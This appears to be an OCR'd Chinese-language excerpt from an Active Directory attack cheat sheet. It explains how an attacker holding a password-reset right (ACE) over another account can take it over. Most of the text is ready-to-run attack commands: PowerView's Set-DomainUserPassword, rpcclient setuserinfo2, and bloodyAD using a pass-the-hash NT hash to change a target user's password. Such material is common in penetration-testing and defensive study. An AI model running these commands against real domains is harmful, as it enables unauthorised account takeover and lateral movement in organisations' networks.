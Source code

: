 	攻击者可以更改此 ACE 适用的用户的密码：

	在 Windows 上，这可以通过Set-DomainUserPassword（PowerView 模块）实现：
	$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
	在 Linux 上：
	rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 

	使用bloodyAD来pass-the-hash
	bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B changePassword target_user target_newpwd